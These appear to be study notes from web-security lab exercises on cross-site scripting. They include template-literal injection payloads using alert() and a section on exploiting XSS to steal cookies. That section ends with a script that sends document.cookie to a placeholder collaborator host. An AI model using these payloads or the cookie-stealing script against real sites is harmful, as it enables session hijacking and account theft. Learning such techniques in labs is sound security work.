 

${alert(document.domain)}

XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped



&quot; ${alert(1)}                We are already inside script tag

quot to escape quotes and need to use html encodding since quotes escaped, we are still inside template literal so ${alert}  will execute alert 





### Exploiting cross-site scripting to steal cookies



 Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.



In practice, this approach has some significant limitations:



- The victim might not be logged in.

- Many applications hide their cookies from JavaScript using the HttpOnly flag.

- Sessions might be locked to additional factors like the user's IP address.

- The session might time out before you're able to hijack it.




```js
<script>

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {

method: 'POST',

mode: 'no-cors',

body:document.cookie

});

</script>
```
